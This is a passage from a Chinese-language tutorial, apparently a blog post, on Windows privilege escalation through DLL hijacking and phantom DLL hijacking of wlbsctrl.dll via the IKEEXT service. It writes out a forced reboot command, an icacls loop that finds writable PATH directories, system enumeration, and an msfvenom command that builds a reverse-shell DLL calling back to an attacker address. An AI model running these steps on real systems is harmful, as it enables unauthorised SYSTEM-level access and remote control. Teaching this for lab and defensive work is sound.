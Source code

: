     shutdown /r /t 0 /f
    

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250320131553529-1634936981.png)

大约20秒钟后，回到监听器，可以看到我们获得了一个 SYSTEM shell！

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250320131552530-2024822658.png)

Amazing！在我们没有能力更改服务本身或其家目录时，我们通过 PATH 变量中的一个可写目录，通过利用预定义搜索顺序成功劫持了服务的 DLL，并最终取得胜利。

虽然这很酷，但不幸的是并不实用。因为我们在普通用户的状态下根本无法使用 Procmon 工具去分析服务启动到底会加载哪些 DLL，因而也就没有办法去利用 DLL 劫持。

因此，DLL 劫持并不是一个提升权限的实用方法，与其说它是一个漏洞，倒不如说它是一个学术概念。

**

4、Phantom DLL 劫持示例

**
--------------------------

虽然 DLL 劫持并不是一个提升权限的实用方法，但还是有一点价值的。因为，在 Windows 7/8 和 Windows 10 的默认服务中，存在着一些已知的 DLL 丢失的清况。

为此，我们将展示两个示例。而这两个示例在 Win7/8 和 Win10 的任何版本中都是有效的，并且能为你提供 SYSTEM shell，但前提是必须要在 PATH 环境变量中存在一个可写的目录。

由于这些都是已知丢失的 DLL，因此在这些示例中我们不需要使用 Procmon 工具进行分析，直接就可以开整。【注：这两示例也是 DLL 劫持提权最有代表性的示例。】

#### **

4.1、Windows 7/8 Phantom DLL 劫持 - wlbsctrl.dll

**

在 Windows 7/8 机器上，当 IKEEXT 服务启动时，有一个名为 wlbsctrl.dll 的默认 DLL 是不能被找到的。

接下来，假设我们以标准用户 bob 的身份在目标 Win 7 机器上获得了一个立足点。

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250320131553713-536618129.png)

在手动枚举期间，通过 for 循环快速检查 PATH 环境变量中的目录权限：

    for %A in ("%path:;=";"%") do ( cmd.exe /c icacls "%~A" 2>nul | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%" && echo. ) 
    

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250320131554012-1585952245.png)

Great！在这里，我们发现当前用户对 `C:\temp` 目录拥有修改权限。接下来，我们检查系统架构并通过 msfvenom 制作了一个恶意 DLL。

    systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"
    

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250320131553574-1521266825.png)

    msfvenom -p windows/shell_reverse_tcp LHOST=172.16.1.30 LPORT=443 -a x86 --platform Windows -f dll -o wlbsctrl.dll
    

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250320131557779-317056126.png)
